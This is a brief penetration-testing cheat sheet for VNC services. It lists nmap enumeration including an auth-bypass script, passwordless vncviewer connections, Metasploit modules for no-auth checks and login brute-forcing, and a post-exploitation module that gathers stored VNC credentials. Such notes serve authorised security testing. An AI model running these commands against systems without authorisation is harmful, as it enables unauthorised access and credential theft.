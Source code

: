 # VNC

% vnc, 5800, 5801, 5900, 5901

## vnc - nmap enum
```
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -p <port> <ip>
```

## vncviewer - connect to vnc no pass
```
vncviewer <ip>::<port>
```

## vncviewer - connect to vnc with password
```
vncviewer -password <password.txt> <ip>::<port>
```

## vnc msf test none auth
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_none_auth; set RHOSTS <ip>; set RPORT <port>; run"
```

## vnc - msf test login bf
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_login; set RHOSTS <ip>; set RPORT <port>; set USERNAME <username>; run"
```

## vnc - msf test login bf (2)
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_login; set RHOSTS <ip>; set RPORT <port>; set USER_FILE <users_file>; set PASS_FILE <pass_file>; run"
```

## vnc - post exploit retreive credentials
```
use post/windows/gather/credentials/vnc
```

